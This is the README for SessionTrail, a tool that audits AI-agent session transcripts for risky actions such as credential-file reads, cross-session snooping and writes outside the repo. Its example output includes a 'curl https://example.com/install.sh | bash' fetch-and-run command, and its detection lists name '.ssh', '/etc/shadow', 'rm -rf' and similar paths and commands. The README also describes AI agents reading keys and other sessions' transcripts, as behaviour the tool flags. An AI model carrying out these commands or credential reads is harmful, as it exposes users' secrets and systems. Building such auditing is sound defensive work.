

# SessionTrail

[](LICENSE)
[](package.json)
[](#how-it-works)
[](https://github.com/Conalh/SessionTrail/releases)

**A transcript behavior reviewer for AI-agent sessions.** SessionTrail reads Cursor, Claude Code, and Codex JSONL transcripts and flags what the agent actually tried to do: credential reads, `curl | sh`, unknown MCP servers, cross-session snooping, network requests, and writes outside the repo.

Prompts and PR diffs only show intent and output. The transcript shows runtime behavior. SessionTrail turns that local JSONL trail into a structured report you can review, gate, or merge with the rest of the agent-gov suite.



**See also:** [AgentPulse](https://github.com/Conalh/AgentPulse) for live trajectory monitoring · [GovVerdict](https://github.com/Conalh/GovVerdict) for one merged suite verdict · [agent-gov-core](https://github.com/Conalh/agent-gov-core) for the shared report schema.

## Why this exists

AI agents routinely do things their prompt never asked for: open `~/.ssh/id_rsa`, read another session's transcript, pipe a shell installer in from the network, or call an MCP server nobody approved. Runtime logs record those tool calls in plain JSONL, but teams rarely read them.

SessionTrail exists to make runtime behavior reviewable after the session. It focuses on **tool intent**: what the agent tried to do, as recorded by the agent runtime.

## What it catches

| Behavior class | Example |
| --- | --- |
| **Out-of-repo access** | Reads/writes outside `--repo`, including home-directory metadata and broad path scans. |
| **Privileged paths** | `.ssh`, `.aws`, `.kube`, `.gnupg`, `/etc/shadow`, and agent metadata directories. |
| **Risky shell intent** | `curl | sh`, publish commands, broad deletes, push operations, obfuscated shell pipelines. |
| **Runtime integrations** | MCP invocations, external network intent, subagent spawns, cross-session transcript access. |

## Quickstart

```bash
git clone https://github.com/Conalh/SessionTrail.git
cd SessionTrail
npm install
npm run bundle

node bundle/index.js audit \
  --transcript test/fixtures/rogue-session.jsonl \
  --repo C:/Dev/Demo \
  --format markdown
```

That command runs against the bundled rogue-agent fixture and reports `CRITICAL`. Swap `--transcript` for a real Cursor / Claude Code / Codex JSONL to audit your own session, or use `--transcript-dir` to scan an entire directory of transcripts.

## Example output

```
SessionTrail behavior review: CRITICAL
Agent runtimes: cursor x9
Parsed: 10 lines, 9 events
Summary: home or Cursor metadata access; reads outside the repository;
  cross-session transcript reads; broad home-directory scans;
  shell command invocations; MCP tool invocations; external network requests;
  subagent spawns; writes outside the repository

[HIGH]     Home directory access: agent read C:/Users/conno/.cursor/plans/demo.plan.md
[MEDIUM]   Read outside repository: C:/Users/conno/.cursor/plans/demo.plan.md
[MEDIUM]   Cross-session transcript read: .../old-session/old-session.jsonl
[HIGH]     Broad path scan: agent scanned a very broad home-directory path
[HIGH]     Shell command: curl https://example.com/install.sh | bash
[MEDIUM]   MCP tool invoked: cursor-app-control/move_agent_to_root
[MEDIUM]   Network request via WebFetch: https://example.com/bootstrap
[LOW]      Subagent spawned: explore
[CRITICAL] Write outside repository: agent attempted to write outside the declared repository root
```

`--format json` emits the canonical `agent-gov-core` Report envelope. Each entry conforms to the shared `Finding` schema, so SessionTrail output composes cleanly with the rest of the suite via GovVerdict:

```json
{
  "schemaVersion": "1.0",
  "tool": "session_trail",
  "rating": "critical",
  "findings": [
    {
      "tool": "session_trail",
      "kind": "session_trail.shell_command_invoked",
      "severity": "high",
      "message": "Shell command: curl https://example.com/install.sh | bash",
      "location": { "file": "test/fixtures/rogue-session.jsonl", "line": 7 },
      "fingerprint": "..."
    }
  ],
  "data": {
    "toolInvocationCount": 9,
    "uniqueToolCount": 7,
    "runtimeUsage": { "cursor": 9 }
  }
}
```

## How it works

- Runs entirely on your machine against local JSONL transcript files. **Uploads nothing by default** — no hosted scanner, no telemetry, no account.
- Parses Cursor (`tool_use` blocks), Claude Code (`tool_use` blocks with per-message `cwd`), and Codex (`response_item` function calls) transcripts into a normalized stream of tool events.
- Scores each event against fixed behavior detectors: reads/writes outside `--repo`, privileged paths, home and agent-metadata directories, cross-session transcript access, broad scans of user roots, risky shell pipelines, MCP invocations, and external network intent.
- Emits findings using the canonical `Finding` schema from [agent-gov-core](https://github.com/Conalh/agent-gov-core), with stable per-finding fingerprints so cross-tool dedupe and SARIF dedupe both work.

Denied actions, tool results, and approval outcomes will land when stable transcript fields exist across runtimes.

## Design choices worth flagging

- **Transcript-first.** SessionTrail reviews what the runtime recorded, not what the prompt claimed or what the final diff contains.
- **Runtime-normalized.** Cursor, Claude Code, and Codex events are normalized into one tool-event stream before detection.
- **Visible allowlists.** `.sessiontrail.json` can downgrade expected behavior, but risky patterns such as `curl | sh`, `npm publish`, `rm -rf`, and `git push` cannot be hidden.
- **Suite-shaped output.** JSON uses the shared `Finding` contract so GovVerdict can merge it with static PR-time tools.

## Options

CLI flags (`sessiontrail audit ...`):

| Flag | Default | Purpose |
| --- | --- | --- |
| `--transcript <path>` | — | Single JSONL transcript to audit. |
| `--transcript-dir <dir>` | — | Audit every JSONL file in a directory. Mutually exclusive with `--transcript`. |
| `--repo <path>` | `cwd` | Repository root used to judge in-repo vs. out-of-repo behavior. Compared as a string, so a Windows-recorded transcript can be reviewed on a Linux runner. |
| `--format` | `text` | `text`, `markdown`, `json`, `github`, or `sarif`. |
| `--json-out <path>` | — | Also write the JSON report to a file. |
| `--markdown-out <path>` | — | Also write the Markdown report to a file. |
| `--sarif-out <path>` | — | Also write a SARIF 2.1.0 report uploadable via `github/codeql-action/upload-sarif`. |
| `--config <path>` | `<repo>/.sessiontrail.json` | Allowlist file. Useful in monorepos where the audit root is not where the config lives. |
| `--fail-on` | `none` | Exit 1 when the session rating meets `low`, `medium`, `high`, or `critical`. |

### Allowlist (`.sessiontrail.json`)

Drop one at the repo root to declare expected behaviors. Matched findings drop to `low` — visible in the report, but not enough to trip `--fail-on medium`. Risky-pattern detection always wins and **cannot** be allowlisted.

```json
{
  "allowedMcpServers": ["github-pr-helper"],
  "benignShellPatterns": ["^cargo\\s+test", "^deno\\s+task\\s+\\w+$"],
  "allowedNetworkHosts": ["internal.example.com"]
}
```

See [`.sessiontrail.json.example`](.sessiontrail.json.example) for a copyable starter.

### GitHub Action

```yaml
- uses: actions/checkout@v6
- uses: Conalh/SessionTrail@v0.6.3
  with:
    transcript: path/to/session.jsonl
    repo: .
    fail-on: none
```

Action outputs: `rating`, `finding-count`, `tool-invocation-count`, `unique-tool-count`, `runtime-count`, `sarif-file`. Chain `sarif-file` into `github/codeql-action/upload-sarif` to surface findings in the Security tab. The action uploads nothing by default — it reads the transcript from the workspace, writes a Markdown report to the step summary, and emits severity-aware inline annotations.

## Part of the agent-gov suite

Local-only OSS tools that review AI-agent PRs and coding sessions for config drift, policy mismatches, and scope creep. Pick the tool that matches the failure mode; combine via GovVerdict.

| Repo | What it catches |
| --- | --- |
| [ScopeTrail](https://github.com/Conalh/ScopeTrail) | Agent config drift between PR base and head. |
| [PolicyMesh](https://github.com/Conalh/PolicyMesh) | Contradictory agent instructions and config drift that make behavior non-reproducible. |
| [CapabilityEcho](https://github.com/Conalh/CapabilityEcho) | Capability drift introduced by code, manifests, workflows, and Dockerfiles. |
| [TaskBound](https://github.com/Conalh/TaskBound) | Scope creep between the stated task and the actual diff. |
| **SessionTrail** *(this repo)* | Risky runtime behavior in Cursor / Claude Code / Codex session transcripts. |
| [AgentPulse](https://github.com/Conalh/AgentPulse) | Live local trajectory verdicts for active agent sessions. |
| [GovVerdict](https://github.com/Conalh/GovVerdict) | Merges JSON reports from the tools above into one deduped review. |
| [agent-gov-core](https://github.com/Conalh/agent-gov-core) | Shared parsers, the canonical `Finding` schema, and `mergeFindings`. |
| [agent-gov-demo](https://github.com/Conalh/agent-gov-demo) | Demo sandbox with a rogue PR that fires all five reviewers. |

See the full stack fire on one rogue PR: **[agent-gov-demo#1](https://github.com/Conalh/agent-gov-demo/pull/1)**.

MIT. Bug reports and false-positive reports welcome via [Issues](https://github.com/Conalh/SessionTrail/issues).
